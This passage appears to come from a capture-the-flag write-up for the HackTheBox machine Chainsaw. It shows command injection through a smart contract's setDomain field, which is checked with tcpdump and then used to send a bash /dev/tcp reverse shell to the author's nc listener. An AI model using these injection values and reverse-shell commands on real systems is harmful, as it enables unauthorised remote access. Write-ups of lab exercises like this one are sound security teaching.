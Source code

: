 ![1562312287957](https://0xdfimages.gitlab.io/img/1562312287957.png)

If I now hit “getDomain”:

![1562312311097](https://0xdfimages.gitlab.io/img/1562312311097.png)

### Injection

Because the name of the contract is WeaponizedPing, I thought something
(either the within the contract or something watching on Chainsaw) might be
pinging the domain value. I opened up `tcpdump` to look for icmp with `tcpdump
-i tun0 -n icmp`. I then updated the contract to point to my ip:

![](https://0xdfimages.gitlab.io/img/chainsaw-ping.gif)

So something is reading the domain and then executing something like `ping -c
1 [input]`. The immediate question is, can I inject into that?

I tried this:

    
    
    >>> contract.functions.setDomain('10.10.14.8; ping -c 2 10.10.14.8').transact()
    HexBytes('0x4bf0a6e9c57c72f6ab13b34ad019bea228744d730a016ea1c0ad9eece33fc73c')
    

If my theory from above is right, I’d get 3 pings, because it would execute
`ping -c 1 10.10.14.8; ping -c 2 10.10.14.8`. If I only get one ping, the
injection didn’t work.

I get 3 pings:

    
    
    15:11:06.716663 IP 10.10.10.142 > 10.10.14.8: ICMP echo request, id 1715, seq 1, length 64
    15:11:06.716682 IP 10.10.14.8 > 10.10.10.142: ICMP echo reply, id 1715, seq 1, length 64
    15:11:06.751937 IP 10.10.10.142 > 10.10.14.8: ICMP echo request, id 1716, seq 1, length 64
    15:11:06.751981 IP 10.10.14.8 > 10.10.10.142: ICMP echo reply, id 1716, seq 1, length 64
    15:11:07.754427 IP 10.10.10.142 > 10.10.14.8: ICMP echo request, id 1716, seq 2, length 64
    15:11:07.754446 IP 10.10.14.8 > 10.10.10.142: ICMP echo reply, id 1716, seq 2, length 64
    

### Shell

Knowing I can inject, I can run a reverse shell as well:

    
    
    >>> contract.functions.setDomain("google.com; bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'").transact()
    HexBytes('0x4a1d4a839ecdeb140fc1ecdbdf5270ef915d3a04100c82365124abbacc1fb70d')
    

And I get a shell on my listener:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.142.
    Ncat: Connection from 10.10.10.142:34244.
    bash: cannot set terminal process group (1461): Inappropriate ioctl for device
    bash: no job control in this shell
    administrator@chainsaw:/opt/WeaponizedPing$ id
    uid=1001(administrator) gid=1001(administrator) groups=1001(administrator)
    